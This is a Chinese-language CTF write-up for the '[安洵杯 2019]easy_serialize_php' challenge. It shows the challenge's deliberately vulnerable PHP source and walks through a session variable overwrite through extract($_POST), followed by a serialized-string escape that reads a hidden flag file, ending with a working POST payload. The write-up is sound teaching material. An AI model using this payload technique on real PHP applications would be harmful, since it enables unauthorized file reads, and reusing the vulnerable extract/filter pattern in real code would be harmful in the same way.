 # [安洵杯 2019]easy_serialize_php

## 知识点

`php反序列化字符串逃逸(变短)`

`SESSION变量覆盖`

## 解题

在首页点击`show_source`即可获得`php`源码

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

在`phpinfo`中找到了，`auto_append_file`说明自动在文件中执行该文件代码，说明要读取这个文件

![image-20231113180630471](G:/CTFWriteUp/buuctf/Web/img/13-3.png)

 `extract($_POST)`就是将`post`的内容作为这个函数的参数。

然后就是变量覆盖。**如果`post`传参为`_SESSION[flag]=123`，那么`$_SESSION["user"]`和`$_SESSION["function"]`的值都会被覆盖**。

至于为什么`post`要传`_SESSION[flag]=123`而不是`$_SESSION[flag]=123`，是因为`_SESSION`是变量名，如果传`$_SESSION`，那么就会失效。

然后就是`反序列化字符串逃逸`，因为这里的`filter`函数是将匹配到的字符串清空，所以是反`序列化字符串逃逸(变短)`

首先按照`phpinfo.php`给的信息读取文件

```php
<?php
$_SESSION["user"] = 'guest';
$_SESSION['function'] = 'show_image';
$_SESSION['img'] = 'ZDBnM19mMWFnLnBocA==';      // d0g3_f1ag.php的base64编码

echo(serialize($_SESSION));
```

生成序列化后的字符串，取需要逃逸的部分，这里取的部分为红框里的部分

![](G:/CTFWriteUp/buuctf/Web/img/[安洵杯 2019]easy_serialize_php-1.png)

在红框部分前面`随意加一个字符`，我这里加了`C`

```php
$_SESSION["user"] = 'guest';
$_SESSION['function'] = 'C";s:8:"function";s:10:"show_image";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$_SESSION['img'] = 'ZDBnM19mMWFnLnBocA==';      // d0g3_f1ag.php的base64编码

echo(serialize($_SESSION));
```

然后看之前红框部分前面这里到添加的`C`字符这部分的长度来决定填充字符

![](G:/CTFWriteUp/buuctf/Web/img/[安洵杯 2019]easy_serialize_php-2.png)

这里需要逃逸`24`个字符，一个`flag`能逃逸`4`个，所以需要`6`个`flag`

```json
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=C";s:8:"function";s:10:"show_image";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

![](G:/CTFWriteUp/buuctf/Web/img/[安洵杯 2019]easy_serialize_php-3.png)

因为`/d0g3_fllllllag`转为`base64`之后长度也是`20`，和`d0g3_f1ag.php`长度相同

所以直接改`img`部分反序列化的值即可，`L2QwZzNfZmxsbGxsbGFn`

![](G:/CTFWriteUp/buuctf/Web/img/[安洵杯 2019]easy_serialize_php-4.png)

[本人博客](https://cmacckk.github.io/2021/06/05/phpUnserialize/#php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E9%80%83%E9%80%B8%E5%8F%98%E7%9F%AD)

[参考文章](